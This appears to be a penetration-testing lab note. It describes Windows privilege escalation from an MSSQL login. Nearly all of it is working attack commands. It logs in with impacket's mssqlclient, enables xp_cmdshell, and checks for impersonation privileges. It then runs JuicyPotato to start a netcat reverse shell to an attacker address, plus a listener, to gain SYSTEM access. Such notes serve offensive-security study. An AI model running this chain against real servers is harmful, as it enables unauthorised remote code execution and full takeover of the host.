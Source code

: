 
https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py

```shell-session
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

enable xp_cmdshelll
```shell-session
enable_xp_cmdshell
```

confirm access
```shell-session
xp_cmdshell whoami
```

check privs
```shell-session
xp_cmdshell whoami /priv
```


### Run JuicyPotato
if correct privs are there like Impersonate
```shell-session
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

Run NC on kali
```shell-session
sudo nc -lnvp 8443
```

Get ntauthority/system access (admin)

